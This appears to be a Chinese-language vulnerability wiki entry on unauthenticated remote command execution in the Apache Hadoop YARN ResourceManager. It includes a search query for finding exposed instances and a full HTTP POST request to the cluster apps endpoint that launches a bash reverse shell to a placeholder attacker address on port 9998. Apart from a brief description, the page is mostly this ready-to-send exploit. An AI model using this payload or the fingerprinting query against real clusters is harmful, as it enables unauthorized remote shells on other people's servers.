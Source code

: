 # Apache Hadoop Yarn RPC 远程命令执行漏洞

## 漏洞描述

 Hadoop Yarn RPC未授权访问漏洞存在于Hadoop Yarn中负责资源管理和任务调度的ResourceManager，成因是该组件为用户提供的RPC服务默认情况下无需认证即可访问，

## 漏洞影响

<a-checkbox checked>Apache Hadoop </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-hadoop-YARN"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1657361631852-75dabea7-851c-4155-973d-79ebcfbf1fd0.png)

验证请求包

```php
POST /ws/v1/cluster/apps HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 215
Content-Type: application/json

{"application-id": "application_1655112607010_0005", "application-name": "get-shell", "am-container-spec": {"commands": {"command": "/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9998 0>&1"}}, "application-type": "YARN"}
```

![img](/assets/PeiQi-Wiki/img/1657361905195-15771262-fd2e-4c75-ba06-82b1d0ce7aad.png)